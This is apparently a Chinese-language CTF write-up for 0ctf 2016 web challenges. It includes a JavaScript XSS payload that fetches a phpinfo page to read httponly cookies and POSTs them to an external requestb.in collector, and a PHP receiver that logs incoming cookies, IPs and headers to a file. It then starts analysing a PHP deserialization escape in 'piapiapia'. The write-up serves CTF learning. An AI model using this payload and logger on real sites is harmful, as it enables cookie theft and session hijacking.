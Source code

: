 因为cookie是http-only的，所以通过js的方式是得不到的，但是可以通过request中是始终存在的。
```
payload = 'xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","/admin/server_info.php",false);xmlhttp.send();r=xmlhttp.responseText;xmlhttp.responseText;xmlhttp.open("POST","http://requestb.in/xxxx",false);xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");xmlhttp.send("vv="+escape(r));'
```
这样就可以得到他的Phpinfo()
```
<td class="e">_COOKIE["flag"]</td><td class="v">0ctf{httponly_sometimes_not_so_secure}</td></tr> <tr><td class="e">_COOKIE["admin"]</td><td class="v">salt_is_admin</td></tr>
```

最后这一步不知道为什么没办法复现，朋友给我了他的php接受方式
```
<?php
$data = "get : ".urldecode(urldecode($_SERVER['QUERY_STRING']));
$data .= "\r\npost : ".urldecode(urldecode(file_get_contents("php://input")));
$data .= "\r\nip : ".$_SERVER["REMOTE_ADDR"];
$data .= "\r\nREFERER : ".$_SERVER['HTTP_REFERER'];
$data .= "\r\nHTTP_USER_AGENT : ".$_SERVER['HTTP_USER_AGENT'];
$data .= "\r\nREQUEST_METHOD : ".$_SERVER['REQUEST_METHOD'];
$data .= "\r\nCookies : ".implode(' ',$_COOKIES);

if(strlen($data)>10){
	file_put_contents("get.txt","### ".date("Y-m-d H:m:s")." ###\r\n".$data."\r\n", FILE_APPEND);
}
exit();

?>
```
这样就可以接收到get.txt，打开看就get了...


## piapiapia(php反序列化逃逸字符)

先给别人的writeup
[http://www.isecer.com/ctf/0ctf_2016_web_writeup_piapiapia.html](http://www.isecer.com/ctf/0ctf_2016_web_writeup_piapiapia.html)

源码就懒得传了，有兴趣可以问我要，通读一遍发现问题可能出在序列化上面，先看看过滤
```
public function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
```
感觉问题在update.php上
```
$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);
```
